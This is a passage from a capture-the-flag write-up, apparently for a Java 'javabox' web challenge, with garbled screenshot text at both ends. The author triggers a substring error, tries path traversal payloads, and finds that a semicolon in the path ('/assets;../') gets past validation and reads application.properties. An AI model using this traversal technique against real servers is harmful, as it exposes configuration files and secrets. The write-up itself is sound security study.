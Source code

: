 0+
method
Anno
lang
lang
lang
jdk.]


```
java.lang.StringIndexOutOfBoundsException: begin 8, end 7, length 7\n\tat java.base/java.lang.String.checkBoundsBeginEnd(String.java:4601)\n\tat java.base/java.lang.String.substring(String.java:2704)\n\tat java.base/java.lang.String.substring(String.java:2677)\n\tat com.cyberjawara.chall.web.javabox.controller.MainController.getAssetFile(MainController.java:91)\n\tat jdk.internal.reflect.GeneratedMethodAccessor4.invoke(Unknown Source)\n\tat java.base/jdk...
```

Hmmm, interesting error. The substring method must be validating the path, so we tried a few classic path traversal payloads like dot dot slash:

```
/assets/../box.jpg
/assets/..\box.jpg
/assets/%2e%2e%2fbox.jpg
//assets
/assets//../box.jpg
//assets/../box.jpg
dll
```

After reading some articles, we found that a semicolon (`;`) can sometimes affect the path. Testing it gave some interesting results:

```
/assets -> error StringIndexOutOfBoundsException
/assets/ -> error getResourceAsStream
```

Adding a semicolon after "assets" changed things:

```
/assets; -> error getResourceAsStream
```

Huh? Instead of throwing `StringIndexOutOfBoundsException` error, we got `getResourceAsStream`. And then I tried few more things

```
/assets;box.jpg -> Works
/assets;../assets/box.jpg -> Works!!
```

Looks like we have path traversal! To confirm, we tried reading the `application.properties` file, and yep, it worked.


[Image extracted text: Request
Response
Pretty
Raw
Hex
Q 0 In
=
Pretty
Raw
Hex
Render
GET
[absets;
/application.properties
HTTP/1.1